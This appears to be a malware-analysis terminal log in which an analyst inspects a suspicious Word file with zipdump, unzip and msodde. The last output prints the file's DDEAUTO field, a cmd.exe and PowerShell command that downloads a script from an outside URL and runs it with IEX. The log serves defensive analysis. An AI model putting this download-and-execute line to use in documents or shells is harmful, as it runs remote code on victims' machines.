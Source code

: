 



remnux@remnux:~/Desktop/File forniti/malware$ zipdump.py maldoc.docx 
Index Filename                     Encrypted Timestamp           
    1 [Content_Types].xml                  0 1980-01-01 00:00:00 
    2 _rels/.rels                          0 1980-01-01 00:00:00 
    3 word/_rels/document.xml.rels         0 1980-01-01 00:00:00 
    4 word/document.xml                    0 1980-01-01 00:00:00 
    5 word/media/image1.png                0 1980-01-01 00:00:00 
    6 word/theme/theme1.xml                0 1980-01-01 00:00:00 
    7 word/settings.xml                    0 1980-01-01 00:00:00 
    8 word/webSettings.xml                 0 1980-01-01 00:00:00 
    9 docProps/core.xml                    0 1980-01-01 00:00:00 
   10 word/styles.xml                      0 1980-01-01 00:00:00 
   11 word/fontTable.xml                   0 1980-01-01 00:00:00 
   12 docProps/app.xml                     0 1980-01-01 00:00:00



remnux@remnux:~/Desktop/File forniti/malware$ unzip -qq maldoc.docx -d maldoc_unpacked
remnux@remnux:~/Desktop/File forniti/malware$ tree maldoc_unpacked/
maldoc_unpacked/
├── [Content_Types].xml
├── docProps
│   ├── app.xml
│   └── core.xml
├── _rels
└── word
    ├── document.xml
    ├── fontTable.xml
    ├── media
    │   └── image1.png
    ├── _rels
    │   └── document.xml.rels
    ├── settings.xml
    ├── styles.xml
    ├── theme
    │   └── theme1.xml
    └── webSettings.xml

6 directories, 11 files





remnux@remnux:~/Desktop/File forniti/malware$ msodde maldoc.docx 
msodde 0.55 - http://decalage.info/python/oletools
THIS IS WORK IN PROGRESS - Check updates regularly!
Please report any issue at https://github.com/decalage2/oletools/issues

Opening file: maldoc.docx
DDE Links:
 DDEAUTO c:\\windows\\system32\\cmd.exe "/k powershell -C ;echo \"https://sec.gov/\";IEX((new-object net.webclient).downloadstring('https://trt.doe.louisiana.gov/fonts.txt')) "